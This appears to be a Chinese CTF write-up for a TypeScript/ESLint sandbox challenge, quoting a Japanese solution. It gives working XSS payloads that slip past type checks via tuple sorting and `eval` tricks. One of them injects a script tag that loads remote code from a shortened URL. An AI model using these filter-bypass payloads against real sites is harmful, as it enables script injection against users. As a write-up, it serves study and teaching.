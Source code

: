 还有另一个 Payload：

```ts
Object.assign({},{a:1},{a:'<script>alert(1)</script>'}).a
```

通过合并对象覆盖属性来获得字符串，但这个会因为 `as` 而被阻止。

write-up 的最后给出了一个可用的 Payload，利用了 `#!ts Array.prototype.sort`。

这是题解作者找到的 Issue：[github.com/microsoft/TypeScript/issues/52375](https://github.com/microsoft/TypeScript/issues/52375)

当就地修改数组时（排序等），元组的类型保持不变，仍然是更改前的类型。

于是得到 Payload：

```ts
((a:[string,1])=>a.sort())(['<script src=/'+'/t.ly/RlAc0></script>',1])[1]
```

URL 需要缩短一下，推荐 [t.ly](https://t.ly/)

（如果随机的短网址中包含了黑名单词，就再缩短一次吧……如果你和我一样倒霉的话）

Flag: `dice{learning-how-eslint-works}`

在这之后，我又找到一个 writeup：[nanimokangaeteinai.hateblo.jp/entry/2024/02/06/051003](https://nanimokangaeteinai.hateblo.jp/entry/2024/02/06/051003)

它有利用 `eval` 的解决方法。

!!! quote
    なかなかアイデアが出てこなかった。急に、`eval` を使っているけれども、常に `number` が返ってくるように見えるようなコードを使うのはどうかと思いついた。ただ `eval` を呼び出すだけだと当然 "Unsafe return of an any typed value." と怒られてしまうけれども、以下のように無理やり `eval` の返り値を数値に変換してやれば、トランスパイラは見逃してくれる。`eval` の実行時に何が起こっていようが気にはしない。

    ```ts
    +eval('[].join("fuga")')
    ```

    これを利用して、`eval` の中でやりたい放題やれるのではないかと考えた。次のコードは、実際には `Number` が `String` に置き換えられているので返り値は `NaNabc` になる。しかしながら、型推論では `eval` の中で何が起こるかは考慮されないので、`Number` が置き換えられないものとして、数値が返ってくるため問題ないとされる。

    ```ts
    (x=>+eval(`Number=String`)+Number(x))('abc')
    ```

    これを利用して、以下のコードで `alert(123)` というコードを実行できた。

    ```ts
    (x=>+eval(`Number=String`)+Number(x))('<script>alert(123)</script>')
    ```

??? quote "翻译自 GPT"
    我一直没有什么好主意。突然，我想到了使用 `eval`，虽然它看起来总是返回数字。但如果只是简单地调用 `eval`，显然会被警告说 "Unsafe return of an any typed value." 但如果我们强行将 `eval` 的返回值转换成数字，就可以让转译器忽略这个问题。`eval` 在执行时无论发生什么都不在乎。

    ```ts
    +eval('[].join("fuga")')
    ```
